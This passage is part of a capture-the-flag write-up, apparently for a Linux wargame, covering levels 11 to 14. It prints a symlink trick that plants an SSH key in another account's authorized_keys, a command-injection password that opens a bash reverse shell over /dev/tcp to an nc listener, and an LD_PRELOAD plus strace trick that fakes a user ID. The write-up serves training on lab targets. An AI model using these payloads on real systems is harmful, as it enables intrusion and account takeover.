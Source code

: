 ```c
			'A' + (random() % 26), '0' + (random() % 10),
			'a' + (random() % 26), 'A' + (random() % 26),
			'0' + (random() % 10), 'a' + (random() % 26));
	symlink("/home/flag11/.ssh/authorized_keys", path);
	printf("%s%d\n%s\n%s", CL, len, pubkey, pubkey);
}
```

Note that we copy our key two times as we need to have an input buffer > 1024 to go to the second branch of the `if`. 

We can then pipe the output to the program : `./exploit | /home/flag11/flag11`. Our key is then registered and we can login to the `flag11` account.

## Level 12

As we can see the two first lines of the `hash()` function execute a bash command and read the output. We can then try to inject our own command to open a [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). On the attacker side we listen for incoming connections with `nc -l 8080`.  We then craft this special password : `something && bash -i >& /dev/tcp/localhost/8080 <&1 || echo hello2`. With this, the first command we simple output *something* and will then open up the reverse shell. On the attacker side, we get our shell, connected with `flag12`, on which we can simply run `getflag`.

## Level 13

Here, I used the [LD_PRELOAD](http://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/) trick to dynamically intervet the `getuid()` function by my own implementation. We first create our new function :

```c
#include <unistd.h>

uid_t getuid() 
{
	return 1000;
}
```

That we compile into a shared library : using `gcc -shared -fPIC -o exploit.so exploit.c`. We then correctly set the env variable with `export LD_PRELOAD=$PWD/exploit.so`.

The last trick is that if we now just run `/home/flag13/flag13`, the LD_PRELOAD variable will not be taken into account because the effective UID doesn't match the real UID (it's a security measure). We then have to get rid of the setuid permission. This can be done by launching the program using `strace -e none /home/flag13/flag13` (from the man page of strace : *Programs that use the setuid bit do not have effective user ID privileges while being traced*).

We then get our token: `your token is b7057***-****-****-****-*********c58`.

## Level 14

For this level, we can give some input to the program to guess the encryption scheme. When we try to give several times the same input (for example several times the character `a`), we quickly see the pattern : the input `aaaa` gives `abcde`, so the *n*-th character is mapped to the *n+1*-character. We can code a decryption program :
